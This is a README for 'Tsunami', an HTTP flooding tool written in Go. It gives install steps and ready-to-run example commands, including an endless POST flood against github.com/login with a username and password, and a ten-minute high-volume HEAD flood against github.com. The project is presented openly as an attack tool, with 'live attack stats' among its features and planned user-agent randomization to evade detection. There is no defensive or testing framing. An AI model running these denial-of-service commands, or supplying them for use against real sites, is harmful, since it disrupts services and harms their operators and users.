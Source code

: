 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://example.com --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Examples
### Low volume POST flood lasting forever
```bash
./tsunami -w 2 "https://github.com/login" POST "username=Ammar&password=g1thuB123"
```
### High volume HEAD flood lasting for 10 minutes
```bash
./tsunami -w 100 -s 600 "https://github.com/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - All HTTP methods
 - Custom headers
 - Pretty display of attack stats
 - ???
